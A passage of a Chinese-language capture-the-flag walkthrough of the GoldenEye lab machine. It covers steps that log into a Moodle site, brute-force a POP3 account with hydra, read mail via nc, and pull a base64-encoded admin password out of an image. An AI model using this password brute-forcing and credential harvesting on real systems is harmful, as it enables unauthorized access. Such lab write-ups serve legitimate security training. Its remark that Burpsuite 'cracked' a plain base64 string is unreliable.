 10、访问severnaya-station.com/gnocertdir地址：

刚登陆界面我就看到了moodle，这是一个开源的CMS系统，继续点一点，发现要登陆，使用邮件获得的用户密码进行登陆。
whatweb severnaya-station.com/gnocertdir  ---指纹搜索也行

点击：Intro to GoldenEye可以进行登录，使用natalya邮箱第二封邮件获得的用户名密码登录：
用户名：xenia
密码：RCP90rulez!
Home / ▶ My profile / ▶ Messages --->发现有一封邮件，内容发现用户名doak

11、继续爆破用户名doak的邮件
echo doak > dayu.txt   ---将用户名写入txt文本中
hydra -L dayu.txt -P /usr/share/wordlists/fasttrack.txt 192.168.4.202 -s 55007 pop3 

[55007][pop3] host: 192.168.4.202   login: doak   password: goat
获得用户名密码：doak/goat

12、登录doak用户枚举邮件信息
nc 192.168.4.202 55007     ---登录邮箱
user doak                  ---登录用户
pass goat                  ---登录密码
list                       ---查看邮件数量
retr 1                     ---查看邮件内容

邮件消息说，为我们提供了更多登录凭据以登录到应用程序。让我们尝试使用这些凭据登录。
用户名：dr_doak
密码：4England!


13、使用新的账户密码登录CMS
登录后在：Home / ▶ My home 右边发现： s3cret.txt
另外发现这是Moodle使用的2.2.3版本

Something juicy is located here: /dir007key/for-007.jpg
现在我们查看文件的内容，指出管理员凭据已隐藏在映像文件中，让我们在浏览器中打开图像以查看其内容。

14、访问页面：severnaya-station.com/dir007key/for-007.jpg

下载到本地：
wget http://severnaya-station.com/dir007key/for-007.jpg

根据邮件提示让我们检查图片内容，下载图片后，我们可以使用：
binwalk（路由逆向分析工具）
exiftool（图虫）
strings（识别动态库版本指令）
等查看jpg文件底层内容！

exiftool for-007.jpg
strings for-007.jpg
用以上命令都可以查看到base64编码隐藏信息：eFdpbnRlcjE5OTV4IQ==

使用Burpsuite破解获得密码：xWinter1995x!

线索中说，这是管理员用户的密码。管理员用户身份继续登陆应用程序。
用户名：admin
密码：xWinter1995x!
severnaya-station.com/gnocertdir

